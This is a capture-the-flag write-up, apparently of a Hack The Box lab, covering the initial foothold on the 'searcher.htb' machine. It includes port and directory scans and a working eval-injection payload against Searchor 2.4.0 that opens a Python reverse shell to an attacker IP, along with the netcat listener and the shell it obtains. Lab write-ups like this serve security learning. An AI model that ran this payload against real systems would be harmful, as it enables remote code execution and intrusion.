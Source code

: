 # Overview

## Footprinting:
```
nmap -sV -A -p- 10.10.11.208 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-15 20:59 EDT
Nmap scan report for 10.10.11.208
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.38 seconds
```

## Initial foothold:

From the output above, we can see that the attacker machine was not able to resolve the local hostname for the redirect. We can add it to the /etc/hosts file:
```
vim /etc/hosts
10.10.11.208    searcher.htb
```

We can start by enumerating existing folders and directories:
```
dirb http://searcher.htb/  

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon May 15 21:06:35 2023
URL_BASE: http://searcher.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://searcher.htb/ ----
+ http://searcher.htb/search (CODE:405|SIZE:153)                                      
+ http://searcher.htb/server-status (CODE:403|SIZE:277)                               
                                                                                      
-----------------
END_TIME: Mon May 15 21:08:54 2023
DOWNLOADED: 4612 - FOUND: 2
```

Not much information, but we can focus on the /search endpoint by testing the behavior of the web application. With a few requests, we are able to select an engine and search for a keyword with or without the Auto redirection option.
```http
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 47
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Amazon&query=GetSomething&auto_redirect=
```

The software versions are listed in the footer of the page:
```
Powered by [Flask](https://flask.palletsprojects.com) and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor)
```

The current version of Searchor is vulnerable to code execution since there is an unsafe eval usage:
https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303
https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b

We can find a few proof of concept exploits on GitHub:
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
https://github.com/jonnyzar/POC-Searchor-2.4.2

We can now generate a payload with our values:
```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.15',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Start up a listener on the attacker machine:
```
nc -nlvp 1234
```

With a proxy, intercept the POST request and enter the payload for the unsanitized query parameter:
```http
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 253
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.15',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

The reverse connection is established:
```
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.208] 46278
/bin/sh: 0: can't access tty; job control turned off

$ whoami
svc
```